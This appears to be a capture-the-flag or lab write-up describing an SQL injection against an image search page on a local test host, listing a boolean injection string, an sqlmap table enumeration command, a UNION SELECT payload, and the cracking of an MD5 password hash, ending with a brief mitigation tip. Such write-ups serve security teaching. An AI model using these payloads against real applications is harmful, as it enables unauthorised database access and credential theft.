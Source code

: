 # SQL Injection Image

The image search form perfoms a DB search by id value provided by the client without sanitizing input.

## Steps
* Proceed to <a href="http://192.168.0.108/?page=searchimg">search image page</a>
* In the search field enter then submit:
	1 OR 1=1
* Open your terminal
* Run reconnaissiance:
```bash
	sqlmap "http://192.168.0.108/?page=searchimg&id=1&Submit=Submit#" --tables
```
* We want to UNION SELECT to append another select statement
* In the search field enter:
```bash
	1 OR 1=1 UNION SELECT id, comment FROM list_image
```
* <a href="https://hashes.com/en/decrypt/hash">MD5 decrypt</a> the password
	<br />
	1928e8083cf461a51303633093573c46 --> albatroz
* In your terminal run:
```bash
	py sha256encrypt.py albatroz
```

## Ways to secure
* Validate and sanitize client input on the server

